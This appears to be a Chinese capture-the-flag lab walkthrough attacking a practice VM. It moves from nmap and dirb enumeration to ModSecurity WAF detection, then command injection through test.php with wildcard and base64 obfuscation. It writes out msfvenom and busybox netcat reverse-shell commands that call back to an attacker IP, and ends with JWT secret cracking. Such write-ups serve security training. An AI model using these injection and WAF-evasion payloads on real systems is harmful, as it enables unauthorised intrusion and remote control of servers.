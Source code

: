 # mynew
wafw00f waf枚举
crs规则机制
waf 可以安装再服务器网站php文件
绕过方法
fuzz wfuzz
| ;$ & 加base64 ？空格 混淆

#
IP发现在打开靶机就会提示！

1、nmap 192.168.3.88
80/tcp open  http

仅仅开启80web页面！

2、web信息枚举

访问：http://192.168.3.88/
发现这是apache服务页面！

dirb http://192.168.3.88/ -X .php
+ http://192.168.3.88/test.php (CODE:200|SIZE:1986)
发下存在test.php！

访问：http://192.168.3.88/test.php

提示：Read last visitor data 读取上次访问者数据
提示存在信息泄露！

点击后弹出：http://192.168.3.88/test.php?file=last.html
?file=   存在文件包含？？


3、绕过waf（一）识别waf
WAF类型：
wafw00f：
WAFw00f是Python脚本，用于检测网络服务器是否处于网络应用的防火墙（WAF ，Web application firewall）保护状态。

wafw00f http://192.168.3.88/test.php
Web 应用程序防火墙：modsecurity 

http://192.168.3.88/test.php?file=|pwd
/var/www/html   ---可以远程代码执行命令

http://192.168.3.88/test.php?file=--version
The site http://192.168.3.88 is behind a ModSecurity (OWASP CRS)

在PHP系统调用中使用cat命令调用！
---------------------------------------------
  -h, --help            显示帮助信息并退出
  -v, --verbose         更详细的输出，多个-v可以增加详细程度
  -a, --findall         寻找所有匹配的waf，不在匹配到第一个时停止
  -r, --noredirect      不遵循3xx响应给出的重定向
  -t TEST, --test=TEST  测试指定的waf
  -o OUTPUT, --output=OUTPUT
                       将输出写入csv、json或文本文件，具体取决于文件扩展名。对于stdout，指定-作为文件名。
  -i INPUT, --input-file=INPUT
                        从文件中读取目标。输入格式可以是csv，json或文本。对于csv和json，需要一	个“url”的列名或元素					      
  -l, --list            列出所有wafw00f能检测的waf
  -p PROXY, --proxy=PROXY
                        使用http代理来发送请求, 例如:
                        http://hostname:8080, socks5://hostname:1080,
                        http://user:pass@hostname:8080
  -V, --version         打印现在的wafw00f版本并退出.
  -H HEADERS, --headers=HEADERS
                        通过文本文件传递自定义header以覆盖默认header设置。
---------------------------------------------
ModSecurity waf！
ModSecurity是一个入侵探测与阻止的引擎，它主要是用于Web应用程序所以也可以叫做Web应用程序防火墙.它可以作为Apache Web服务器的一个模块或单独的应用程序来运行。ModSecurity的目的是为增强Web应用程序的安全性和保护Web应用程序避免遭受来自已知与未知的攻击。
https://github.com/SpiderLabs/ModSecurity  ---开源
https://github.com/SpiderLabs/owasp-modsecurity-crs


4、绕过waf（二）模糊测试Fuzz

wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/All_attack.txt http://192.168.3.88/test.php?file=FUZZ    ---正常模糊测试执行命令
-c 输出颜色
-z payload

wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/All_attack.txt --hc 404,403 http://192.168.3.88/test.php?file=FUZZ   ---加hc过滤

深入参考：
https://blog.csdn.net/qq_17204441/article/details/102279118



根据文章：
https://www.freebuf.com/articles/web/184414.html
默认情况下，Bash会像Perl那样处理未初始化的变量：即视为空字符串！
msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.2.157 lport=4455 -f elf > shell
http://192.168.3.88/test.php?file=dayu; $u wget http://192.168.3.86:8089/shell1 -o /tmp/shell
http://192.168.3.88/test.php?file=dayu; $u ls /tmp
http://192.168.3.88/test.php?file=dayu; $u chmod 777 /tmp/shell1
nc -vlp 4455
http://192.168.3.88/test.php?file=dayu; $u /tmp/shell1

这里会有个坑，就是文件空间满了需要删除！


5、绕过waf（三）

分号“;” 隔离绕过waf！

可以在不受限制和不同的二进制文件中执行命令来绕过本地安全限制！

二进制文件的列表：https://gtfobins.github.io/

最终发现：https://gtfobins.github.io/gtfobins/busybox/可以绕过waf

http://192.168.3.88/test.php?file=dayu;busybox nc 192.168.3.86 6666 -e sh
http://192.168.3.88/test.php?file=dayu;busybox nc 192.168.3.86 6666 -e sh -i

加入个 -i 就可以直接获得正常稳定shell！

有php过滤器
任意文件名；命令


6、绕过waf（四）

&/bin/echo bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjQuMTYyIDEzMzc=|/usr/bin/base64 -d|/bin/sh
直接访问会报错！需要混淆：
?问号在linux中以命令使用着，例如：/bin/echo可以通过替换一些字母来调用，/bin/ech?，仍然会执行相同的命令！

&/bin/ech? bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjQuMTYyIDEzMzc=|/u?r/bin/b?se64 -d|/bin/?h
还是不起作用！继续混淆：一些过滤器会禁止添加=或&到URI进行请求。
改&为%26   ---URL编码


nc -e /bin/sh 192.168.56.101 1337   ---这个是有== 号的不允许
echo "nc -e /bin/sh 192.168.56.101 1337 " | base64
echo "nc -e /bin/sh 192.168.56.101 1337  " | base64
绕过加空格就行！


http://192.168.4.161/test.php?file=%26/bin/ech?%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjQuMTYyIDEzMzc=|/u?r/b?n/b?se64%20-d|/b?n/sh

http://192.168.3.88/test.php?file=%26/bin/ech? bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjMuODYgMTMzNyAgICAgICAK|/u?r/b?n/b?se64 -d|/bin/?h

1）知道了cat执行命令，那么用&符号：
& 符号url编码是%26，结束并开始一个新的命令！
2）%20   ---空格
3）bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjMuODYgMTMzNyAgICAgICAK   ---base64编码
（这里== 也在黑名单上）
4）/u?r/b?n/b?se64%20-d是url编码的绕过方法：/usr/bin/base64 -d
5）|/b?n/sh也是一种绕过：|/bin/sh


7、稳定shell拓展
SHELL=/bin/bash script -q /dev/null
xport TERM=xterm-256color
ctrl + z
stty raw -echo
fg


8、内部信息收集

Linux version 4.13.0-39-generic   ---45010
Sudo version 1.8.20p2             ---CVE-2021-3156

uid=1000(bob) gid=1000(bob) groups=1000(bob),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)   ---找到bob的密码，su bob登录用sudo -l提权


python3 -m http.server 8089
wget http://192.168.3.88:8089/._pw_
mv ._pw_ pw


10、提权---深入分析pw文件

初步怀疑这是一个密码base64解码看看：用点隔开了

1）base64
cat pw | base64 -d    
{"alg":"HS256","typ":"JWT"}base64: 输入无效
第一部分枚举到信息是hs256、JWT？发现内容包含“.”点不是有效的base64字符

过滤点：
cat pw | cut -d "." -f 2 | base64 -d
{"sub":"1234567890","name":"John Doe","iat":1516239022}base64: 输入无效
发现第二部分是1~0，人名，还是未解析完！

cat pw | cut -d "." -f 3 | base64 -d
�~y�P������"k��1�,��C��[}base64: 输入无效
发现第三部分是二进制！


2）JWT

将pw内容丢入谷歌，发现这是JWT（JSON Web 令牌）！----果然和第一部分验证的JWT是提示！

什么是JWT？ JSON Web Token（JWT）是一个开放的行业标准（RFC 7519），它定义了一种简介的、自包含的协议格式，用于在通信双方传递json对象，传递的信息经过数字签名可以被验证和信任。JWT可以使用HMAC算法或使用RSA的公 钥/私钥对来签名，防止被篡改。
参考：
https://blog.csdn.net/guohao_1/article/details/89951178

JWT 具有这种格式的三个部分：
base64(header).base64(payload).base64(signature)
1. header在 JSON 中指定算法和类型。
2. payload指定令牌的声明，也在 JSON 中。
3. signature是编码头和有效载荷的数字签名。

在线查看：
https://jwt.io/#debugger

开始破解：
proxychains git clone https://github.com/brendan-rius/c-jwt-cracker.git
cd jwt-cracker
apt-get install libssl-dev
make

./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
Secret is "mlnV1"   ----等待几分钟


或者用：https://github.com/lmammino/jwt-cracker

































































